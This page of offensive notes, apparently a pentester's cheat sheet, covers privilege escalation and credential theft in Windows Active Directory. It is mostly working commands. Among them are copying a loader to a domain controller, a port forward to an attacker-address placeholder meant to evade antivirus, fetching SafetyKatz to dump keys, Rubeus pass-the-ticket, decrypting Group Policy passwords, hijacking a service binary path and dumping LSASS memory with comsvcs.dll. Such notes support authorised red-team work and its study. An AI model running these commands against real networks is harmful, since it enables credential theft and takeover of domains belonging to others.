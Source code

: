 ```yaml
---
layout: app
title: "Active Directory - PrivEsc"
tags: ["privesc","powerup","powerview","abuse service", "sc.exe", "Rubeus","permissions", "netloader","winrs","SafetyKats", "MS14-025","gpp-decrypt","autologon"]
section: "Active Directory"
---
```


# Privilege Escalation

## CheckList

- -**Missing Patches**
- -**Automated deployment**
- -**Autologon passwords**
- -**AlwaysInstallElevated**
- -**MisConfiguration Services**
- -**DLL Hijacking**
- -**NTLM Relaying**


### Tools
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* - Invoke-AllChecks
* [Privesc](https://github.com/enjoiz/Privesc)
* [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)


# Extract Hashes or Credentials

Import PowerView.ps1
Use to find out opened sessions

```powershell
Find-DomainUserLocation
```

Download NetLoader.exe and copy to Domain Controller

```powershell
echo f | xcopy C:\users\public\loader.exe \\dc01\c$\Users\Public\loader.exe
```

Add port forward into Domain Controller using winrs, to prevent AV detect

```powershell
$null | winrs -r:dc01 "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=280 connectaddress=[attacket_address]"
```

Invoke Loader to run SafetyKats to get hashes and credentials

```powershell
$null | winrs -r:dc01 "c:\Users\Public\loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit"
```

With **aes256_hmac** can be use **Rubeus** to execute command

```powershell
Rubeus.exe asktgt /user:<username> /aes256:<aes256_hmac> /opsec /createnetonly:C:\windows\system32\cmd.exe /show /ptt
```

# MS14-025

(https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN]

The password stored within Groups.xml inside SYSVOL share folder, must be decrypted use the Password published by Microsoft.

Use **gpp-decrypt** to do that.

```powershell
gpp-decrypt "EncryptedPassword"
```

## Enumeration

(https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN]


# Autologon

When auto logon is configured via Group Policy, can found the password into Registry.xml file.

## Tools

```powershell
NetExec smb -u <UserName> -p <Password> -d <Domain> -M gpp_autologin
```
* Get-GPPAutologon.ps1 (PowerSploit)


## PowerSploit

### Get Services with Unquoted Path

```powershell
Get-ServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```
### Current User rights

Determine if the current user has rights to modify the service binary itself or any associated arguments

```powershell
Get-ModifiableServiceFile
```

### Get Service Security Permission
```powershell
sc.exe sdshow "servicename"
```
**--------------------OUTPUT----------------------------**

- **D**: Indicates that is a Security Policy
- **A**: Indicates than additional permits are granted.
- **CC**: Change Permissions
- **LCSW**: List Contents
- **RP**: Read Permission
- **WP**: Write Permission
- **DT**: Delete Toggles
- **LOCRRC**: Ocultar o revelar recursos
- **;;;** indicates that the permissions apply to the account **service**

### Abuse of service

```powershell
sc.exe config "servicename" binpath="newservicepath"
```


## Enumeration

### Find computers where a current user can execute commands

```powershell
Find-LocalAdminAccess
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1 
Invoke-CheckLocalAdminAccess
```

### Get all domain computers

```powershell
Get-NetComputer
```
### Finds domain machines where specific users are logged into

```powershell
Test-AdminAccess
Find-DomainUserLocation -CheckAccess
Find-DomainUserLocation -Stealth
```
## Run all checks

### PowerUp


```powershell
Invoke-AllChecks
```

### Privesc

```powershell
Invoke-PrivEsc
Invoke-Privesc check
```

### PEASS-ng

```powershell
winPEASx64.exe
```

# Dump Memory

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump "Lsass Process ID" c:\temp\lsass.dmp full
```

## Tools 

* lsassy
* Physmem2profit
* impacket